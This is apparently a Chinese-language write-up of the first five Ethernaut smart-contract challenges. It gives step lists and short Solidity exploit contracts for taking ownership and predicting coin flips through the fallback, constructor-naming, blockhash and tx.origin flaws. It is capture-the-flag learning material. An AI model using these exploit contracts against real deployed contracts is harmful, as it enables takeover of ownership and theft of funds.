

# Writeup(31)
## 1.Hello Ethernaut

跟着返回的提示调用合约函数



## 2.Fallback
1. 调用contribute函数捐款小于0.001e的数额, getContribution函数返回值大于0
2. 发送任意数额的eth调用fallback函数, owner改为当前账户
3. 调用withdraw提取所有金额

## 3.Fallout

Fal1out并不是构造函数, 手动调用即可

注意:Solidity合约构造函数不能和合约名一样

## 4.Coin Flip
编写合约代码, 提前计算结果, 在不同的区块下调用guess函数10次
```solidity
contract Guess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip x = CoinFlip(0x7B588F9C807501337AFa5AeF3945bd18FdAF9CbF);
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        x.flip(side);
    }
}
```
## 5.Telephone
tx.origin是交易的发起者, msg.sender是当前函数的调用者
编写hack合约, 通过合约调用changeOwner函数
```solidity
contract Hack {
    constructor() {
        Telephone t = Telephone(0x35B2bAb61Ee13B9256811B693AA054Ad1dd016Ec);
        t.changeOwner(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }
}
```
